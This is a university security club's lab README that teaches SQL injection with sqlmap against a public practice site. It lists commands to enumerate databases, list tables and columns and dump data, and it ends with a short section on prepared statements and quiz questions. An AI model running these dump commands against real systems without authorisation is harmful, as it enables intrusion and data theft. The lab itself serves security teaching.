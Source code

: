 ## SQLi-sqlmap-challenge
* Author: Kitsios Marios
* Date: 29/11/2021
* Topic: SQLi tool sqlmap
* Challenge created specifically for the Cyber Security Club of University of Macedonia


## Install sqlmap
Instructions for installation of sqlmap here: https://github.com/sqlmapproject/sqlmap
```
$ git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## Connect 
* Connect to http://testphp.vulnweb.com/

## Find a possible vulnerable location in the website
   * example: http://testphp.vulnweb.com/something.php?something=something
   ```
   If you cant find a potentially vulnerable location in the website
   base64 decode this to get a hint on where it is: aHR0cDovL3Rlc3RwaHAudnVsbndlYi5jb20vbGlzdHByb2R1Y3RzLnBocD9jYXQ9MQ== 
   ```
   
## Use sqlmap to enumerate the databases and to check if the GET parameter that is being passed is vulnerable to SQLi
   You can either use the url directly to begin the attack:
   ```
      sqlmap -u <url> --dbs
             -u Target URL (e.g. "http://www.site.com/vuln.php?id=1")
             --dbs Enumerate the databases
   ```
   Or you can:
   * Intercept the request with BurpSuite (or whatever you prefer)
   * Save the request in a .txt file (because sqlmap works best with a .txt file)
   ```
      sqlmap -u <url> -r <file_path.txt> --dbs
                      -r Specifies a file to read the get request instead of the url
   ```
   
## List all the tables of a database 
```
  sqlmap -u <url> -D <db_name> --tables
                  -D DBMS database to enumerate
                  --tables  Enumerate DBMS database tables
```

## List information about the columns of a table 
```
   sqlmap -u <url> -D <db_name> -T <table_name> --columns
                                -T Specify a table in a database
                                --columns Query the column names
```

## Retrieve column data from table
```
   sqlmap -u <url> -D <db_name> -T <table_name> -C <column_name> --dump
                                                -C Specify column name to dump data from
                                                --dump Rtrieves the data
```

## Prevent SQL Injection 
  * Reference: https://www.geeksforgeeks.org/use-sqlmap-test-website-sql-injection-vulnerability/
  * SQL injection can be generally prevented by using Prepared Statements . When we use a prepared statement, we are basically using a template for the code and analyzing the code and user input separately. It does not mix the user entered query and the code. A code vulnerability often exists, when the **input entered by the user is directly inserted into the code and they are compiled together, and hence we are able to execute malicious code.** For prepared statements, we basically send the sql query with a placeholder for the user input and then send the actual user input as a separate command. 
  
Consider the following php code segment. 
```
        $db = new PDO('connection details');
        $stmt = db->prepare("Select name from users where id = :id");
        $stmt->execute(array(':id', $data));
```
In this code, the user input is not combined with the prepared statement. They are compiled separately. So even if malicious code is entered as user input, the program will simply treat the malicious part of the code as a string and not a command. 

## Questions to be answered                                          GoogleForm: https://docs.google.com/forms/d/1dXsPoqZ1Bf4SSsOdvbrZ8hS1qcCFm6oFqZNqAMCk6t4/edit?usp=sharing

  * What option can we use to change the user agent to tor ?
  * Which DBMS is being used and what version is it ? 
  * What are the names of the two databases ?
  * How many tables are there in the database 'acuart' ?
  * What kind of data type is being stored in the 'adsec' column of the table 'artists' ?
  * What is the 1st value of 'aname' column of the table 'artists' and the database 'acuart' ?
  
